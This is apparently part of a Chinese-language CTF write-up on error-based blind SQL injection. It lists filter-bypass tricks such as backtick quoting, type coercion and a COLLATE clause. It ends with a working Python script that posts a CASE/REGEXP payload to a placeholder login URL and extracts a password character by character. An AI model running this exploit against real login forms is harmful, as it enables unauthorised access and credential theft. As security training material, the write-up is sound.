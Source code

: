 这里有几个点：

- username和regexp之间怎么隔开？这里把username用反引号引起来
- when和then怎么隔开？这里用了字符的强转型
- then后的1和else怎么隔开？这里加多一个空字符
- 最后end怎么闭合后面的单引号？这里加多一个||

还需要注意的几个点：

- 特殊字符怎么办？用反引号进行转义
- 大小写怎么区分？用`COLLATE utf8mb4_bin`

给出最后的脚本：

```python
import requests
url='http://xxx/login'
flag=''
for i in range(1,50):
    for ascii in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789^!?$':
        temp=ascii
        if(temp in '^!?$'):
            temp="\\\\\\"+temp
        payload={
            'password':'xxx',
            'username':f"'||case`password`regexp'^{flag+temp}'COLLATE'utf8mb4_bin'when'1'then~0+1+''else'0'end||'"
        }
        response=requests.post(url=url, data=payload)
        print(payload)
        print(response.text)
        if '500' in response.text:
            flag+=temp
            print(flag)
            break
        print(ascii)

```

